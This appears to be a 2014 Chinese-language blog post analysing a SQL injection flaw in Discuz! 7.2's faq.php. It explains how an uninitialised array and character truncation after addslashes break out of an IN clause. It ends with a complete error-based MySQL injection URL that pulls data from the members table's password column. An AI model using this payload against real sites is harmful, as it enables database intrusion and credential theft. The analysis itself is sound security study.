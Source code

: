 Title: Diz7.2 faq漏洞代码深入分析
Date: 2014-07-05 10:25
Tags: code

当得知diz7.2漏洞时，查看官方补丁，看见修改 `$gids = Array()`，当时以为只是一个变量覆盖的问题，今天仔细的研究了一下源代码，果真是卧虎藏龙啊。也给了我深深的启发，看问题不能只看表面，需要沉下去，细细品味。费话少说，请看下面分析。

在dz中，GET的数据都会被全局进行addslashes转义，把一些预定字符前加\，所以一般的变量覆盖问题也很难引起注入漏洞。什么原因呢，请看下面关键代码片段

#### **1、关键片段源码**

**1.片段一：**

	$groups = $grouplist = array();

**2.片段二：**

	$groupids = array();
	foreach($gids as $row) {
		$groupids[] = $row[0];
	}

**3.片段三：**

	$query = $db->query("SELECT * FROM {$tablepre}usergroups u LEFT JOIN {$tablepre}admingroups a ON u.groupid=a.admingid WHERE u.groupid IN (".implodeids($groupids).")");


**4.片段四：**

    function implodeids($array) {
	    if(!empty($array)) {
		    return "'".implode("','", is_array($array) ? $array : array($array))."'";
	    } else {
		    return '';
	    }
    }

#### **2、关键片段功能分析**

**1.片段一：**

初始化变量，但这里并没有初始化gids变量，url中传递此变量可以覆盖

**2.片段二：**

取数组gids变量的每个成员的第一个字符，当gids被赋值为`$gids=('12','23','34')`时，groupids就会被赋值为`$groupids=('1','2','3')`，但就是这样所以才出现了问题。

当url中传递gids中包含一个单引号是，经过addslashes转义后就会加上一个\，当前gid就会变为`$gids=('12','\'','34')`，groupids就会被赋值为`$groupids=('1','\','3')`。

可以看出此处的处理导致引入了一个转义的字符。

**3.片段三：**

执行sql语句查询，此处理查询使用了groupids变量，注意变量前后都有符号“()”,并且是在in语句内

**4.片段四：**

将数组分解成一个字符串，每个成员之间使用逗号相连使得in的语句变成`in ('1','\','3')`，本来应该是三个参数的，由于存在一个转义符，此语句只有2个参数1和`',`而后面的`3'`是多余的。

此处如果我们控制`3`的话，就能注入，当`3`为`) and (select 1) %23`，in语句就会变成`in ('1','\',') and select 1 %23')`。

很明显使用`)`闭合了前面的一个`(`，使用`%23`注释掉后面的单引号。注入语句`select 1`得到执行


#### **3、mysql报错注入法**

由于能够控制输入让sql执行，可以使用mysql的报错注入法，使用group by与rand的组合即可爆出数据库的内容，形式如下。还有几种报错法，可以根据原理自由发挥。
    
    faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat((select%20count(password)%20from%20cdb_members%20limit 1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23





